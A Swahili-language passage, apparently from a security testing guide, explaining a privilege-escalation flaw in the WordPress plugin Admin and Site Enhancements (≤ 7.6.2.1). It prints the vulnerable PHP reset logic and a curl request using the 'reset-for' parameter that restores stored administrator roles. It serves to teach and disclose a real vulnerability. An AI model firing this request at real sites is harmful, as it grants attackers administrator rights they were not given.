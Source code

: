 
### Kuongezeka kwa ruhusa kupitia urejeshaji wa role zilizo zamani na kukosa uidhinishaji (ASE "View Admin as Role")

Plugins nyingi hufanya utekelezaji wa kipengele cha "view as role" au kubadilisha role kwa muda kwa kuhifadhi role za awali kwenye user meta ili ziweze kurejeshwa baadaye. Ikiwa njia ya urejeshaji inategemea tu vigezo vya ombi (kwa mfano, `$_REQUEST['reset-for']`) na orodha inayotunzwa na plugin bila kukagua capabilities na nonce halali, hili linageuka kuwa kuongezeka kwa ruhusa kwa wima.

Mfano wa ulimwengu halisi ulipatikana kwenye plugin Admin and Site Enhancements (ASE) (≤ 7.6.2.1). Tawi la reset liliirejesha role kulingana na `reset-for=<username>` ikiwa jina la mtumiaji liligundika kwenye array ya ndani `$options['viewing_admin_as_role_are']`, lakini halikufanya ukaguzi wa `current_user_can()` wala uthibitisho wa nonce kabla ya kuondoa role za sasa na kuziweka tena role zilizohifadhiwa kutoka user meta `_asenha_view_admin_as_original_roles`:
```php
// Simplified vulnerable pattern
if ( isset( $_REQUEST['reset-for'] ) ) {
$reset_for_username = sanitize_text_field( $_REQUEST['reset-for'] );
$usernames = get_option( ASENHA_SLUG_U, [] )['viewing_admin_as_role_are'] ?? [];

if ( in_array( $reset_for_username, $usernames, true ) ) {
$u = get_user_by( 'login', $reset_for_username );
foreach ( $u->roles as $role ) { $u->remove_role( $role ); }
$orig = (array) get_user_meta( $u->ID, '_asenha_view_admin_as_original_roles', true );
foreach ( $orig as $r ) { $u->add_role( $r ); }
}
}
```
Kwa nini inaweza kutumiwa

- Inatumaini `$_REQUEST['reset-for']` na chaguo la plugin bila idhinisho upande wa server.
- Iwapo mtumiaji awali alikuwa na vibali vya juu vilivyohifadhiwa katika `_asenha_view_admin_as_original_roles` na alishushwa hadhi, anaweza kuvirudisha kwa kufikia njia ya reset.
- Katika baadhi ya mifumo, mtumiaji yeyote aliyethibitishwa anaweza kusababisha reset kwa jina la mtumiaji mwingine linaloendelea kuwepo katika `viewing_admin_as_role_are` (idhinishaji lililoharibika).

Mahitaji ya shambulio

- Toleo la plugin lenye udhaifu na kipengele kimewezeshwa.
- Akaunti lengwa ina role ya juu iliyosalia iliyohifadhiwa katika user meta kutoka matumizi ya awali.
- Kikao chochote kilicho thibitishwa; kutokuwepo kwa nonce/capability kwenye mtiririko wa reset.

Exploitation (example)
```bash
# While logged in as the downgraded user (or any auth user able to trigger the code path),
# hit any route that executes the role-switcher logic and include the reset parameter.
# The plugin uses $_REQUEST, so GET or POST works. The exact route depends on the plugin hooks.
curl -s -k -b 'wordpress_logged_in=...' \
'https://victim.example/wp-admin/?reset-for=<your_username>'
```
Kwenye builds zilizo hatarini hili huondoa roles za sasa na kuzirudisha roles za asili zilizohifadhiwa (kwa mfano, `administrator`), kwa ufanisi kuongeza ruhusa.
